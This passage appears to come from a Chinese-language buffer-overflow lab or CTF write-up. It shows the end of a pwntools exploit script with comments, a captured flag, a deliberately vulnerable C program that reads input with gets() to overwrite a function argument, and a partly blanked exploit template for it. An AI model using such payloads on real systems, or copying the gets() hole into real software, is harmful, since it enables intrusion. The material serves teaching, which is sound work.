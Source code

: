 ```python=
		)
# b"A" * count：產生20個位元組的填滿字元 "A"。 
# ret_gadget.to_bytes(8, "little")：將 ret_gadget 位址轉換為8位元組的小端序位元組序列。 
# target.to_bytes(8, "little")：將 target 位址轉換為8位元組的小端序位元組序列。

input("[aft sending]")
proc.interactive()

```
```
python exp1.py
```
## GET FLAG
![image](https://hackmd.io/_uploads/rJltHPdmC.png)
> **FLAG: flag{buffer_overflow_is_soooooo_1asy}**

# Practice05
![image](https://hackmd.io/_uploads/SkX9_PdQC.png)

practice05.c
```c=
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("cat /home/hacker/flag2");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```

溫柔體貼的助教 [@stwater20](https://github.com/stwater20) 又寫好腳本 exp2.py
```python=
from pwn import *

proc = process(["./practice05"])
#proc = remote("192.168.12.131",1621)
input("[b4 sending]")

count = ?
payload = b"A" * count
target = 0x?
payload += target.to_bytes(8,"little")
#payload = "sdsd"
proc.sendline(payload)
proc.interactive()

```
